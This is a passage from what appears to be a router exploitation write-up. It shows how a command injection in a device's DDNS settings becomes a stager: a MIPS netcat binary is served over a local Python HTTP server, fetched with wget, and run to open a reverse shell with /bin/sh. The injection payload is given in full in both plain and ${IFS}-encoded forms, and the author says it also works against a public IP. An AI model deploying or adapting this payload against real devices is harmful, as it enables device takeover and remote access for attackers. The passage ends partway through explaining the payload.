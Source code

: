 So now all we have to do is to modify the `command injection` payload in the DDNS settings to act as a stager that downloads a final persistance payload.

I will use this [https://github.com/darkerego/mips-binaries/blob/master/netcat](https://github.com/darkerego/mips-binaries/blob/master/netcat) a statically compiled netcat binary for the MIPS architecture, i could even write by own reverse shell in `c` and compile it for MIPS but i will keep it simple for now.

```
python3 -m http.server 9090
```

After downloading the `netcat` binary, im opening a `local python HTTP` server on `port 9090` as the first step. For the second step i will open a `reverse shell listener` on `port 4545` using `netcat`. For this PoC i will use the LAN IP (`192.168.1.1`) my laptop gets assigned when connected to the local network, but the same exploit will work with a public IP too. 

Command injection payload:
```sh
user;sh -c 'cp /bin/ls /tmp/netcat;wget http://192.168.1.1:9090/netcat -O /tmp/a;cat /tmp/a>/tmp/netcat;rm /tmp/a;/tmp/netcat 192.168.1.1 4545 -e /bin/sh';echo 
```

With encoded spaces:
```
user;sh${IFS}-c${IFS}'cp${IFS}/bin/ls${IFS}/tmp/netcat;wget${IFS}http://192.168.1.1:9090/netcat${IFS}-O${IFS}/tmp/a;cat${IFS}/tmp/a>/tmp/netcat;rm${IFS}/tmp/a;/tmp/netcat${IFS}192.168.1.1${IFS}4545${IFS}-e${IFS}/bin/sh';echo${IFS}
```

![Backdoor](./images/backdoored.png)

1. `sh -c '...'`
 - This runs everything inside the quotes as a separate shell command, it makes the injection payload more stable.
